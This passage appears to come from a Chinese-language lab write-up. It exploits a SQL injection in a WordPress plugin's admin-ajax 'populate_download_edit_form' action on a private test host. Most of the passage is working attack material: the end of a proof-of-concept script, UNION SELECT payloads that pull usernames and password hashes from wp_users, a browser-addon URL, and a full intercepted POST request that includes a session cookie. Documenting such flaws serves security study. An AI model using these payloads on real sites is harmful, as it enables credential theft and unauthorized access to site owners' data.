 ```bash
    # code, head, html, redir, log = hackhttp.http(url, post=payload)
    if code == 200 and "202cb962ac59075b964b07152d234b70" in html:
        security_hole("%s" % url, log=log)

if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.wordpress, "http://192.168.70.4:6083")[1])
```

#### 构造payload请求

```bash
id=100 union select md5(123),2,4,5,6,7,8 from wp_users where id=1;
id=100 UNION SELECT user_login,user_pass,user_nicename,user_email,user_registered,7,8 FROM wp_users WHERE ID=1;
```

#### sql注入

##### hackbar

```bash
http://192.168.70.4:6083/wp-admin/admin-ajax.php?action=populate_download_edit_form

id=100 union select md5(123),2,4,5,6,7,8 from wp_users where id=1;
```

![image-20241105154917999](https://image.201068.xyz/assets/11.Wordpress/image-20241105154917999.png)

```bash
http://192.168.70.4:6083/wp-admin/admin-ajax.php?action=populate_download_edit_form

id=100 UNION SELECT user_login,user_pass,user_nicename,user_email,user_registered,7,8 FROM wp_users WHERE ID=1;
```

![image-20241105155102620](https://image.201068.xyz/assets/11.Wordpress/image-20241105155102620.png)

##### burpsute

![image-20241105155553476](https://image.201068.xyz/assets/11.Wordpress/image-20241105155553476.png)

```bash
POST /wp-admin/admin-ajax.php?action=populate_download_edit_form HTTP/1.1
Host: 192.168.70.4:6083
Content-Length: 111
Cache-Control: max-age=0
Origin: http://192.168.70.4:6083
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.4:6083/wp-admin/admin-ajax.php?action=populate_download_edit_form
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_7190a056b1cc7873906429f8cddddb02=admin%7C1732002252%7CfbYDZeETioZFLstg3UZ7ukpRKeBB2ReH1oUE82o0eHq%7Ca7de874c327c3c500b06846829da6c8b46a10b589d64708e86d280e5ee505239
Connection: keep-alive

id=100 UNION SELECT user_login,user_pass,user_nicename,user_email,user_registered,7,8 FROM wp_users WHERE ID=1;
```
